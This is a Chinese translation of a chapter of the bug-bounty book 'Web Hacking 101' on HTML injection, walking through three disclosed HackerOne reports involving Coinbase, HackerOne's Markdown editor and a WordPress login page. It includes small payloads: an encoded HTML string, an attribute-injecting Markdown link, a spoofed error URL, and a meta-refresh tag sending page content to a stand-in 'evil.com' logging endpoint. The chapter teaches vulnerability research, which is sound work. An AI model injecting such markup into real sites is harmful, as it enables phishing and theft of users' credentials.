 ## **0x01-HTML 注入**

>作者：Peter Yaworski
>
>譯者：飛龍
>
>協議：CC BY-NC-SA 4.0


## **描述**
超文本標記語言（HTML）注入有時也被稱為虛擬污染。這實際上是一個由站點造成的攻擊，該站點允許惡意用戶向其 Web 頁面注入 
<br>
HTML，並且沒有合理處理用戶輸入。換句話說，HTML 注入漏洞是由接收 HTML 
<br>
引起的，通常通過一些之後會呈現在頁面的表單輸入。這個漏洞是獨立的，不同於注入 Javascript，VBscript 等。
<p>
由於 HTML 是用於定義網頁結構的語言，如果攻擊者可以注入 HTML，它們基本上可以改變瀏覽器呈現的內容。有時，這可能會導致頁面外觀的完全改變，
<br>

或在其他情況下，創建表單來欺騙用戶，例如，如果你可以注入HTML，你也許能夠將`<form> `
<br>
標籤添加到頁面，要求用戶重新輸入他們的用戶名和密碼。然而，當提交此表單時，它實際上將信息發送給攻擊者。

---


### **1. Coinbase 評論**
```
難度：低
URL： coinbase.com/apps
報告鏈接： https://hackerone.com/reports/104543
報告日期：2015.12.10
獎金：$200
```
描述：
對於此漏洞，報告者識別出 Coinbase 在呈現文本時，實際上在解碼 URI 的編碼值。對於那
<br>
些不熟悉它的人（我在寫這篇文章的時候），URI 中的字符是保留的或未保留的。根據維基
<br>
百科，保留字是有時有特殊意義的字符，如 `/` 和 `&` 。未保留的字符是沒有任何特殊意義的
<br>
字符，通常只是字母。

因此，當字符被 URI 編碼時，它將按照 ASCII 轉換為其字節值，並以百分號（`%`）開頭。所以，`/`變成`%2F`，`&`成為`%26`。另外，ASCII 
<br>
是一種在互聯網上最常見的編碼，直到 UTF-8 出現，它是另一種編碼類型。現在，回到我們的例子，如果攻擊者輸入 HTML：

```html
<h1> This is a test</h1>
```

Coinbase 實際上會將其渲染為純文本，就像你上面看到的那樣。但是，如果用戶提交了 URL 編碼字符，像這樣：

```
%3C%68%31%3E%54%68%69%73%20%69%73%20%61%20%74%65%73%74%3C%2F%68%31%3E
```
Coinbase 實際上會解碼該字符串，並渲染相應的字符，像這樣：

```
This is a test
```

使用它，報告者演示瞭如何提交帶有用戶名和密碼字段的 HTML 表單，Coinbase 會渲染他。如果這個用戶是惡意的，Coinbase 就會渲染一個表單，它將值提交給惡意網站來捕獲憑據（假設人們填充並提交了表單）。


>重要結論
>
>當你測試一個站點時，要檢查它如何處理不同類型的輸入，包括純文本和編碼文本。特別要注意一些接受 URI 編碼值，例如`%2f`>，並渲染其解碼值的站點，這裡是`/`。雖然我們不知道這個例子中，黑客在想什麼，它們可能嘗試了 URI 編碼限製字符，並註意到 Coinbase >會解碼它們。之後他們更一步 URL 編碼了所有字符。

[http://quick-encoder.com/url](http://quick-encoder.com/url) 是一個不錯的 URL 編碼器。你在使用時會注意到，它告訴你非限製字符不需要編碼，並且提供了編碼 URL 安全字符的選項。這就是獲取用於 COinbase 的相同編碼字符串的方式

---

### **2. HackerOne 無意識 HTML 包含**
```
難度：中
URL：hackerone.com
報告鏈接：https://hackerone.com/reports/112935
報告日期：2016.1.26
獎金：$500
描述：
```

在讀完 Yahoo XSS 的描述（第七章示例四），我對文本編輯器中的 HTML 渲染測試產生了興
<br>
趣。這包含玩轉 HackerOne 的 Markdown 編輯器，在圖像標籤中輸入一些類似 `ismap=
"yyy=xxx"` 和 `"'test"` 的東西。這樣做的時候，我注意到，編輯器會在雙引號裡麵包含一個單
引號 - 這叫做懸置引號。
<p>
那個時候，我並沒有真正理解它的含義。我知道如果你在某個地方注入另一個單引號，兩個
<br>
引號就會被瀏覽器一起解析，瀏覽器會將它們之間的內容視為一個 HTML 元素，例如：
<br>

```html
<h1>This is a test</h1><p class="some class">some content</p>'
```
使用這個例子，如果你打算注入一個 Meta 標籤：
```html
<meta http-equiv="refresh" content='0; url=https://evil.com/log.php?text=
```
瀏覽器會提交兩個引號之間的任何東西。<br />
現在，結果是，這個已經在 HackerOne 的 [#110578](https://hackerone.com/reports/110578)報告中由 [intidc](https://hackerone.com/intidc) 公開。<p>

看到它公開之後，我有一點失望。<br />
根據 HackerOne，它們依賴於 Redcarpet（一個用於 Markdown 處理的 Ruby 庫）的實現，<br />
來轉義任何 Markdown 輸入的 HTML 輸出，隨後它會通過 React 組件<br />
的 dangerouslySetInnerHTML 直接傳遞給 HTML DOM（也就是頁面）。此外，React 是一個<br />
JavaScript 庫，可用於動態更新 Web 頁面的內容，而不需要重新加載頁面。<p>
DOM 指代用於有效 HTML 以及 格式良好的 XML 的應用程序接口。<br />
本質上，根據維基百科，DOM 是跨平台並且語言無關的約定，用於展示 HTML、XHTML 和 XMl 中的對象，並與其交互。<p>
在 HackerOne 的實現中，它們並沒有合理轉義 HTML 輸出，這會導致潛在的漏洞。<br />
現在，也就是說，查看披露，我覺得我應該測試一下心得代碼。我返回並測試了這個：
```html
[test](http://www.torontowebsitedeveloper.com "test ismap="alert xss" yyy="test"\ ")
```
它會變成
```html
<a title="'test" ismap="alert xss" yyy="test" ' ref="http://www.toronotwebsi\ tedeveloper.com">test</a>
```
你可以看到，我能夠將一堆 HTML 注入到 `<a>` 標籤中。<br />
所以，HackerOne 回滾了該修復版本，並重新開始轉義單引號了。


>重要結論
>
>僅僅是代碼被更新了，並不意味著一些東西修復了，而是還要測試一下。當部署了變更
>之後，同時意味著新的代碼也可能存在漏洞。
>此外，如果你覺得有什麼不對，一定要深入挖掘。我知道一開始的尾後引號可能是個問
>題，但是我不知道如何利用它，所以我停止了。我本應該繼續的。我實際上通過閱讀
>XSS Jigsaw 的 了解了 Meta 刷新利用。



---


### **3. WithinSecurity 內容偽造**
```
難度：低

URL：withinsecurity.com/wp-login.php
報告鏈接：https://hackerone.com/reports/111094
報告日期：2015.1.16
獎金：$250
```
描述：
<p>
雖然內容偽造實際上和 HTML 注入是不同的漏洞，我也將其包含在這裡，因為它們擁有相似的本質，攻擊者讓一個站點渲染它們選擇的內容。
<p>
WithinSecurity 構建在 WordPress 平台之上，它包含登錄頁面withinsecurity.com/wp-login.php（這個站點已經合併到了 HackerOne 的核心平台中）。攻擊者註意到了在登錄過程中，如果發生了錯誤，WithinSecurity 就會渲染access_denied，同時對應 URL 中的error參數：

<pre>
https://withinsecurity.com/wp-login.php?error=access_denied
</pre>

注意到了這個，攻擊者嘗試修改`error`參數，並發現無論參數傳遞了什麼值，都會被站點渲染為錯誤信息的一部分，並展示給用戶。這裡是所用的示例：


<pre>https://withinsecurity.com/wp-login.php?error=Your%20account%20has%20%hacked</pre>

![5](https://raw.githubusercontent.com/dyeat/Document_read/master/Web_Hacking_101/image/5-1.jpg)

WithinSecurity 內容偽造

這裡的關鍵是注意到 URL 中的參數在頁面中渲染。雖然他們沒有解釋，我可以假設攻擊者註意到了`access_denied`展示在了頁面上，但是也包含在 URL 中。這裡他們也報告了，漏洞也可以由一個簡單的測試，修改`access_denied`參數來找到。

>重要結論
>
>時刻關注傳遞並且渲染為站點內容的 URL 參數。他們可能就是攻擊者的機會，用於欺騙受害者來執行一些惡意動作。


## 總結
HTML 注入向站點和開發者展示了漏洞，因為他可以用於誤導用戶，並且欺騙它們來提交一些敏感信息，或者瀏覽惡意網站。就像釣魚攻擊那樣。
<p>
發現這些漏洞並不是通過僅僅提交 HTML，而是弄清楚站點如何渲染你的輸入文本，像是 URI 編碼的字符。而且，雖然內容偽造並不和 HTML 注入完全一樣，它也是類似的，因為它涉及讓一些輸入在 HTML 頁面中反映給受害者。攻擊者應該仔細尋找機會，來操縱 URL 參數，並讓它們在站點上渲染。